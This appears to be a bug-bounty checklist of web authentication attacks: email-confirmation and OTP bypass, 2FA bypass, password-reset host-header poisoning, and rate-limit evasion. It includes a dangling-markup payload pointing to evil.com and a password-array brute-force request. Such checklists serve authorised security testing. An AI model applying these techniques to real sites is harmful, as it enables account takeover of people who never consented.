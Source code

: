 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - While reseting password intercept request to burp and see if you cloud add <a href> tag and see in email if there anything changes. 

> Authentication:
	
	- Bypass Rate Limit with X-Forwarded-For: to pwn authentication
	- Host header injeciton in forgot password page
	- Test Remember me functionality
	- Test password reset and/or recovery
	- 2FA Bypass
		- Access the content directly (site.com/profile)
		- Login using Oauth gmail or FB to bypass 2FA
		- Reset Password and login inoto the account to bypass 2FA 
		- Use old toke or change the response
	- Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
	- Web Cache deception [site.com/profile/min.js]
	- PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
	- While resetting password change the host header to your server (VPS) = secret link to your VPS
	- Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
	- Password reset poisoning via dangling markup
		Host: victim.com:'<a href="//evil.com/? Don't #">

	- Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

	- Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

	- replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

	- If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in automatically before sending each request.)
	
